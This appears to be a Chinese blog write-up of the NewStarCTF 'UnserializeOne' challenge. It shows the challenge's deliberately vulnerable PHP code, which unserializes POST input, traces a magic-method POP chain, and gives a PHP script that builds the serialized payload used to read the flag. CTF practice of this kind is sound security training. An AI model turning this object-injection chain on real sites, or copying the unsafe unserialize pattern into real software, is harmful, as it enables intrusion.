 ```yaml
---
title: '[NewStarCTF 公开赛赛道]UnserializeOne'
date: 2025-01-22 20:48:05
tags: 反序列化
categories: 刷题笔记
---
```


## [NewStarCTF 公开赛赛道]UnserializeOne

我们通过Wappalyzer可知该题用的php在7.1以上

由于php7.1+ 对属性并不敏感，public 也可用于protected和private

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
#Something useful for you : https://zhuanlan.zhihu.com/p/377676274
class Start{
    public $name;
    protected $func;

    public function __destruct()
    {
        echo "Welcome to NewStarCTF, ".$this->name;
    }

    public function __isset($var)
    {
        ($this->func)();
    }
}

class Sec{
    private $obj;
    private $var;

    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }

    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}

class eeee{
    public $obj;

    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```

我们来看pop链怎么写

我们显卡看到Sec类的invoke魔术方法可以直接打印flag，所以我们需要触发这个魔术方法

我们在Start类中的isset方法里发现可以触发invoke，所以接着我们要触发isset方法

**__isset()，当对不可访问属性调用isset()或empty()时调用**

我们在eeee类的clone方法里发现isset函数可以触发Start类的isset方法，我们就需要触发clone方法

**__clone()，当对象复制完成时调用**

我们在Easy类里的call方法里发现使用了clone，我们就需要触发call方法

**__call()，在对象中调用一个不可访问方法时调用。**

我们可以在Sec的toString方法里触发call方法，接着就是触发toString方法

我们在Start类中找到echo来触发toSting方法,于是我们就找完了pop链

简单来讲就是`Start的__destruct()调用Sec的__toString()，__toString()调用Easy的__call(),__call()复制调用eeee的__clone(),__clone()的isset调用Start的__isset,__isset调用Sec的__invoke获取flag`

```php
<?php
class Start{
    public $name;
    public $func;
}

class Sec{
    public $obj;
    public $var;




}

class Easy{
    public $cla;


}

class eeee{
    public $obj;


}
$a=new Start();
$a->name=new Sec();
$a->name->obj=new Easy();
$a->name->var=new eeee();
$a->name->var->obj=new Start();
$a->name->var->obj->func=new sec();
echo (serialize($a));
```

将运行结果post传上去，得到flag

![image-20250122213437254](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202501222134328.png)
